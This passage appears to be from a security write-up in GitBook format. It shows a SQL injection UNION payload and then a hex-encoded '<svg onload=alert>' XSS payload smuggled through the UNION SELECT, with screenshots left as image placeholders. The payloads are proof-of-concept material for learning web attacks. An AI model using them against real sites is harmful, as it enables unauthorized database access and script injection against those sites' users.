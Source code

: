 Ok i will Try Use union Attack

```sql
1' union select 1,2#
```

<figure><img src=".gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

Ok  Try again UNION Attack to make XSSSQi&#x20;

\<svg src=x onload=alert(/H3ckt00r/)>

Make  Encoded to HEX && ad 0x in begin payload

**`0x3c737667207372633d78206f6e6c6f61643d616c657274282f4833636b743030722f293e53`**

```sql
1' UNION SELECT 1,0x3c737667207372633d78206f6e6c6f61643d616c657274282f4833636b743030722f293e53#
```

<figure><img src=".gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>
